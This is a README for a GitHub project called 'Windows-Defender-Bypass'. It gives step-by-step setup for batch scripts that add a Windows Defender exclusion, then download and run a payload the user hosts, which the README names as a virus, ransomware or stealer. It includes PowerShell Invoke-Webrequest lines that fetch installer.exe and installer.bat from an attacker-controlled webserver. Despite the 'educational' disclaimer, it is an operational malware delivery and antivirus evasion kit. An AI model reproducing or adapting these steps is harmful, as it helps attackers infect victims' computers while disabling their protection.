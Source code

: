 # Windows-Defender-Bypass
Fully undetectable bypass for Windows Defender. Works by adding an exclusion for exe files, downloading your file and removing the exclusion after running the file.
# This project is intended for research/educational purposes only.
# Setup
If you already have a webserver, skip to step 2.  
  
1, To start setting up the bypass, you will need a webserver, you can create one by heading over to https://replit.com and creating an HTML, CSS & JS repl, after that, you will need to run the repl. It should then open up a website preview and give you the webserver URL above it.  
  
2, Upload the file you wish to execute (virus, ransomware, stealer, etc) to the webserver and rename the file to installer.exe.  
  
3, Edit line 31 in the installer.bat file:  
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.exe' -OutFile installer.exe"
```
Change https://YOURSITE.COM/installer.exe to your webserver URL. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.exe  
  
4, Upload the installer.bat to your webserver.
5, Edit line 4 in the main.bat file:
```bat
Powershell -Command "Invoke-Webrequest 'https://YOURSITE.COM/installer.bat' -OutFile installer.bat"
```
Replace https://YOURSITE.COM/installer.bat with your webserver URL and the path to the installer.bat file. If you use replit, it should look like this: https://replname.wnetmc.repl.co/installer.bat  
  
6, Done. The file you would use to bypass windows defender would be main.bat. You can convert it to an executable but this will raise the number of detections. If this helped you, make sure to star this repository (;
